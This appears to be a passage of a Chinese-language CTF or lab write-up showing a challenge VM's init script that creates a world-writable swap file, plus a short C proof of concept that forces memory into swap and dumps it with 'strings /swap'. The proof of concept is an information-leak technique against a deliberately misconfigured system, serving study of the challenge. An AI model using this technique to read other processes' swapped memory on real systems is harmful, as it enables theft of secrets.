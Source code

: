 /etc/init.d/rcS

```bash
#!/bin/sh

/bin/busybox --install -s

stty raw -echo

chown -R 0:0 /

mkdir -p /proc && mount -t proc none /proc
mkdir -p /dev  && mount -t devtmpfs devtmpfs /dev
mkdir -p /tmp  && mount -t tmpfs tmpfs /tmp

umask 111

dd if=/dev/zero bs=1M count=10 of=/swap status=none
losetup /dev/loop0 /swap
mkswap /dev/loop0 >/dev/null
swapon /dev/loop0 >/dev/null
```

- `dd`
  - `bs`: block size
- `losetup <loop_device> <file>`: loop device 為 pseudo device，能夠與某個檔案連接，而後能將檔案給 mount 起來做存取
- `mkswap <device>`: 指定 device 為 swap space
- `swapon <device>`: 開啟 device 做 swap

而 `swap` 為 writable `-rw-rw-rw- 1 0 0 10485760 Jul 19 18:07 swap`，並且當在 kernel 使用過多 memory (`mmap` + `MAP_SHARED`)，kernel 確實會把部分的 memory swap 到 `/swap`，POC 如下:

```c
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    for (int i = 1; i <= 100; i++) {
        // 0x100000 == 1024*1024 == 1MB
        // all memory is 100MB
        void *mem = mmap(NULL, 0x100000, PROT_READ | PROT_WRITE | PROT_EXEC,
                 MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        
        memset(mem, i, 0x100000);
        printf("%d\n", i);
        system("strings /swap");
    }
    getchar();

    return 0;
}
```
